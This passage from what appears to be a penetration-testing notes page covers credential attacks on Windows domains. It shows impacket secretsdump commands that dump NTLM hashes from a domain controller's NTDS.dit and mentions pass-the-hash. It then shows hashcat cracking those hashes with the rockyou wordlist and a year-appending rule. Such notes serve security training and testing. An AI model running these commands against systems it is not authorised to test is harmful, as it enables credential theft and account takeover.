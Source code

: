 ### Method 5

If you have credentials for an account that can log on to the DC, it's possible to dump hashes from **NTDS.dit** remotely via RPC protocol with impacket:

```powershell
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```

Once again we can leverage _secretsdump_:

```powershell
secretsdump.py -system system -ntds ntds.dit local
```

Once hashes are obtained we can either use Pass The Hash (pth) attacks or try to crack them to their clear text values.
{: .notice}


## Hashcat

First we can check what hardware hashcat will be using, as running on a GPU is considerably faster than the CPU.

```shell
hashcat -I
```

Cracking in it's simplest form using hashcat, we use the _rockyou_ wordlist. RockYou was a company that developed widgets for social networks including MySpace and Facebook. In December 2009 they had a databreach of 32 million user accounts and their unencrypted passwords.

```shell
hashcat -a 0 -m 1000 hashes /usr/share/wordlists/rockyou.txt
```
Where:
* _-a 0_ specifies the wordlist attack mode.
* _-m 1000_ specifies that the hash is NTLM.

This has stored the cracked hashes in the default **~/.hashcat/hashcat.potfile** which we can then _--show_ adding the usernames (_--username_):

```shell
hashcat --show --username hashes
```

Adding the year as a lot of users will add the year to the password to satisfy the digit requirement

```shell
hashcat -a 0 -m 1000 hashes /usr/share/wordlists/rockyou.txt -r add-year.rule
```

Where:
* _-r add-year.rule_ is our custom rule file

which contains
```
$2$0$1$7
$2$0$1$8
$2$0$1$9
$2$0$2$0
$2$0$2$1
$2$0$2$2
$2$0$2$3
$2$0$2$4
```
